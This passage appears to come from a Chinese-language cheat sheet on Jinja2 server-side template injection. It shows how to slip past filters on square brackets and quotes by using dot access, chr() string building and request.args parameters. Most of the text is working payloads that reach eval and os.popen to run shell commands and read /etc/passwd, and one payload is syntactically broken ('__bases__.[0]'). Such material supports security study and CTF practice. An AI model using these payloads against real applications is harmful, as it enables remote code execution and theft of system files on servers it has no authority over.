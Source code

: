 **利用字典读取绕过**

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 `[]` 里来访问，一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```
// __builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}


```

等同于：

```
// [__builtins__]['eval']()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


```

### 过滤了引号

**利用 chr() 绕过**

先获取 chr() 函数，赋值给 chr，后面再拼接成一个字符串

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}


```

等同于

```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}


```

**利用 request 对象绕过**

示例：

```
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /


```
